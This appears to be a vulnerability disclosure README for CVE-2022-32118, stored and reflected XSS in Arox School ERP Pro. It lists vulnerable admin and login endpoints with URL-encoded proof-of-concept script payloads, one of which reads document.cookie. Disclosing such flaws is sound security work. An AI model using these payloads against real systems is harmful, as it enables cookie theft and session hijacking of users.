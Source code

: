 # CVE-2022-32118 - Arox-XSS
Stored and Reflected Cross Site Scripting vulnerabilities exist in multiple pages of the Arox School ERP Pro application, including the login page, that allows for arbitrary execution of JavaScript commands. The application has many more parameters affected by Cross Site Scripting but listed below are a sample size.

## Stored XSS Vulnerable Pages:

#### localhost/office_admin/?pid=74&action=dispatchcategoryedit&id=3
```
dispatchcategory=%3Cscript%3Ealert%28%27XSSDispatchGroupHere%27%29%3C%2Fscript%3E&submit=submit
```

#### localhost/office_admin/?pid=32&action=addcategoty&emsg=3
```
lib_category=%22%3E%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&libcat_desc=Test&AddCategory=Submit
```

#### localhost/office_admin/?pid=42&action=addadmin
```
admin_fname=Test&admin_lname=Test&admin_username=Test&admin_password=Test&admin_password2=Test&admin_email=Test&admin_phoneno=1234567899&adminlevel=%22%3E%3CscrIpt%3Ealert%28%27XSSHiddenHere%27%29%3B%3C%2FscRipt%3E&admin_more=&1_p=1_p&1_1=1_1&1_2=1_2&1_4=1_4&1_3=1_3&2_p=2_p&2_1=2_1&2_2=2_2&2_3=2_3&2_4=2_4&2_5=2_5&2_6=2_6&2_7=2_7&2_8=2_8&2_9=2_9&2_10=2_10&2_11=2_11&2_12=2_12&2_13=2_13&2_14=2_14&2_15=2_15&2_20=2_20&2_18=2_18&2_19=2_19&3_p=3_p&3_1=3_1&3_2=3_2&3_3=3_3&3_5=3_5&3_4=3_4&4_p=4_p&5_p=5_p&5_1=5_1&5_3=5_3&5_2=5_2&5_5=5_5&5_6=5_6&6_p=6_p&7_p=7_p&7_1=7_1&7_2=7_2&7_3=7_3&7_4=7_4&7_5=7_5&8_p=8_p&8_1=8_1&8_2=8_2&8_3=8_3&8_101=8_101&8_4=8_4&8_5=8_5&8_6=8_6&8_16=8_16&8_102=8_102&8_7=8_7&8_8=8_8&8_9=8_9&8_17=8_17&8_103=8_103&8_104=8_104&8_10=8_10&8_11=8_11&8_12=8_12&8_18=8_18&8_105=8_105&8_106=8_106&8_13=8_13&8_14=8_14&8_15=8_15&8_19=8_19&8_107=8_107&8_108=8_108&9_p=9_p&9_1=9_1&9_17=9_17&9_18=9_18&9_19=9_19&9_2=9_2&9_20=9_20&9_21=9_21&9_22=9_22&9_3=9_3&9_4=9_4&9_5=9_5&9_6=9_6&9_101=9_101&9_7=9_7&9_102=9_102&9_8=9_8&9_103=9_103&9_24=9_24&9_25=9_25&9_33=9_33&9_23=9_23&9_11=9_11&9_13=9_13&9_27=9_27&9_14=9_14&9_29=9_29&9_30=9_30&9_31=9_31&9_15=9_15&9_16=9_16&9_32=9_32&10_p=10_p&10_1=10_1&10_2=10_2&10_3=10_3&10_4=10_4&10_5=10_5&10_6=10_6&10_7=10_7&10_8=10_8&10_11=10_11&10_9=10_9&10_10=10_10&10_12=10_12&11_p=11_p&11_1=11_1&11_2=11_2&11_3=11_3&11_4=11_4&11_5=11_5&11_6=11_6&11_7=11_7&11_8=11_8&11_9=11_9&11_10=11_10&11_11=11_11&11_12=11_12&11_13=11_13&11_14=11_14&11_15=11_15&11_16=11_16&11_17=11_17&11_18=11_18&11_19=11_19&11_20=11_20&11_21=11_21&11_23=11_23&11_101=11_101&11_102=11_102&11_22=11_22&11_103=11_103&11_104=11_104&12_p=12_p&12_1=12_1&12_2=12_2&12_3=12_3&12_4=12_4&12_5=12_5&12_11=12_11&12_6=12_6&12_7=12_7&12_8=12_8&12_12=12_12&12_9=12_9&12_10=12_10&13_p=13_p&13_1=13_1&13_2=13_2&13_3=13_3&13_17=13_17&13_4=13_4&13_5=13_5&13_6=13_6&13_18=13_18&13_7=13_7&13_8=13_8&13_9=13_9&13_19=13_19&13_20=13_20&13_10=13_10&13_11=13_11&13_12=13_12&13_21=13_21&13_22=13_22&13_13=13_13&13_14=13_14&13_15=13_15&13_16=13_16&13_108=13_108&13_23=13_23&13_101=13_101&13_102=13_102&13_103=13_103&13_104=13_104&13_106=13_106&13_105=13_105&14_p=14_p&14_1=14_1&14_2=14_2&14_3=14_3&14_101=14_101&14_4=14_4&14_5=14_5&14_6=14_6&14_102=14_102&14_7=14_7&14_8=14_8&14_9=14_9&14_103=14_103&14_10=14_10&14_21=14_21&14_104=14_104&14_11=14_11&14_105=14_105&14_12=14_12&14_106=14_106&14_13=14_13&14_14=14_14&14_15=14_15&14_16=14_16&14_107=14_107&14_17=14_17&14_18=14_18&14_19=14_19&14_20=14_20&15_p=15_p&15_1=15_1&15_2=15_2&15_3=15_3&16_p=16_p&16_1=16_1&16_2=16_2&16_3=16_3&16_101=16_101&16_4=16_4&16_5=16_5&16_6=16_6&16_102=16_102&16_7=16_7&16_8=16_8&16_10=16_10&16_11=16_11&16_12=16_12&16_103=16_103&16_13=16_13&16_14=16_14&16_15=16_15&16_17=16_17&16_18=16_18&16_20=16_20&16_21=16_21&16_24=16_24&16_104=16_104&16_105=16_105&16_22=16_22&16_25=16_25&16_23=16_23&16_26=16_26&16_106=16_106&16_107=16_107&16_27=16_27&16_28=16_28&16_29=16_29&17_p=17_p&17_1=17_1&17_6=17_6&17_2=17_2&17_3=17_3&17_101=17_101&17_4=17_4&17_5=17_5&17_7=17_7&17_8=17_8&17_9=17_9&18_p=18_p&18_5=18_5&18_1=18_1&18_2=18_2&18_3=18_3&18_4=18_4&18_6=18_6&18_7=18_7&18_8=18_8&18_9=18_9&18_10=18_10&18_11=18_11&18_12=18_12&19_p=19_p&19_1=19_1&19_2=19_2&19_3=19_3&19_4=19_4&19_5=19_5&19_6=19_6&19_11=19_11&19_7=19_7&19_12=19_12&19_13=19_13&19_14=19_14&19_15=19_15&19_101=19_101&19_102=19_102&19_8=19_8&19_16=19_16&19_9=19_9&19_10=19_10&19_17=19_17&19_18=19_18&20_p=20_p&20_1=20_1&20_5=20_5&20_101=20_101&20_2=20_2&20_6=20_6&20_102=20_102&20_3=20_3&20_4=20_4&21_p=21_p&21_1=21_1&21_2=21_2&21_3=21_3&22_p=22_p&22_1=22_1&22_2=22_2&22_3=22_3&22_5=22_5&22_4=22_4&22_6=22_6&23_p=23_p&24_p=24_p&24_1=24_1&24_2=24_2&24_3=24_3&24_4=24_4&25_p=25_p&25_1=25_1&25_2=25_2&25_5=25_5&25_6=25_6&25_3=25_3&25_4=25_4&25_7=25_7&25_8=25_8&26_p=26_p&26_1=26_1&26_2=26_2&27_p=27_p&27_1=27_1&27_2=27_2&27_3=27_3&28_p=28_p&28_1=28_1&28_2=28_2&28_3=28_3&28_4=28_4&28_5=28_5&29_p=29_p&29_1=29_1&29_2=29_2&30_p=30_p&30_1=30_1&30_2=30_2&30_3=30_3&30_4=30_4&30_5=30_5&30_6=30_6&30_7=30_7&30_8=30_8&31_p=31_p&31_1=31_1&31_2=31_2&31_3=31_3&31_5=31_5&31_4=31_4&32_p=32_p&32_3=32_3&32_1=32_1&32_4=32_4&32_2=32_2&32_5=32_5&33_p=33_p&33_1=33_1&33_2=33_2&33_3=33_3&33_8=33_8&33_4=33_4&33_5=33_5&33_6=33_6&33_7=33_7&34_p=34_p&34_1=34_1&34_2=34_2&35_p=35_p&35_1=35_1&35_2=35_2&35_3=35_3&saveallowance=Submit
```

## Reflected XSS Vulnerable Pages:

#### localhost/username=%22%3E%3Cscript%3Ealert%28%27XSSUsernameHere%27%29%3B%3C%2Fscript%3E&password=&usertype=admin&Login.x=38&Login.y=17
#### localhost/username=&password=%22%3E%3Cscript%3Ealert%28%27XSSPasswordHere%27%29%3B%3C%2Fscript%3E&usertype=admin&Login.x=42&Login.y=14
